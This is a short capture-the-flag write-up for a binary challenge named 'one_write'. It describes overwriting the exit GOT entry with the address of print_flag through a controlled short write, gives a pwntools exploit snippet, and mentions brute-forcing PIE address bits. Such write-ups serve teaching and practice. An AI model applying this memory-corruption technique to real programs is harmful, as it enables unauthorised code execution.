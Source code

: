 # one_write
The goal is to read the flag.

## Context
- The binary allows the user to write either a byte, short, or integer to a specified memory location.

## Approach
By disassembling the executable, I identified the `print_flag` function. The strategy is to overwrite the `exit` function's GOT entry with the address of `print_flag`, so that when the program tries to call exit, it will instead execute print_flag and print the flag.
```{python}
magic = CHALL.symbols['magic']
tgt_address = CHALL.got['exit']
off = tgt_address - magic 
print_flag_addr = CHALL.symbols['print_flag']

c.recvuntil(b'Choice: ')
c.sendline(b'2')
c.recvuntil(b'Offset: ')
c.sendline(bytes(str(off), 'utf-8'))
c.recvuntil(b'Value: ')
c.sendline(b'809') 
c.recvuntil('you.\n')
print(c.recvline())
c.interactive()
```

- I choose option 2 to perform a short write (only 2 bytes).
- `magic` is where the write is performed. So I calculated the offset from `magic` to the `exit`.
- Then I send the value of the last 2 bytes of `print_flag`.
- Since the binary is compiled with Position Independent Executable (PIE), the base address is randomized on each execution. To bypass this, the solution requires bruteforcing the address bits for the dynamic page when interacting with the remote challenge. I used a loop to bruteforce the randomized address bits for the dynamic page and successfully execute the exploit.
